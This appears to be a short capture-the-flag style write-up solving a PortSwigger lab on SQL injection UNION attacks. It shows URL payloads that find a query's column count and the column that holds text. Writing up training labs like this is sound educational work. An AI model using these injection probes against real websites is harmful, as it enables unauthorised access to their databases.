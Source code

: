```yaml
---
title: 🕸️ PSA - SQLi 4 - Finding column containing text
date: 2023-03-03
categories: [PortSwigger, SQLi]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal

To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided.

Value provided: '`abc`'

## ✅ Solution

First we need to know how many columns are returned by the query:

````text
<website>/filter?category=Pets' UNION SELECT NULL--    # error!
<website>/filter?category=Pets' UNION SELECT NULL,NULL--    # error!
<website>/filter?category=Pets' UNION SELECT NULL,NULL,NULL--    # works
<website>/filter?category=Pets' UNION SELECT NULL,NULL,NULL,NULL--    # error!
````

We now know there are 3 columns. Time to find which one contains string data:

````text
<website>/filter?category=Pets' UNION SELECT 'abc',NULL,NULL--    # error!
<website>/filter?category=Pets' UNION SELECT NULL,'abc',NULL--    # works
<website>/filter?category=Pets' UNION SELECT NULL,NULL,'abc'--    # error!
````

The second column contains string.
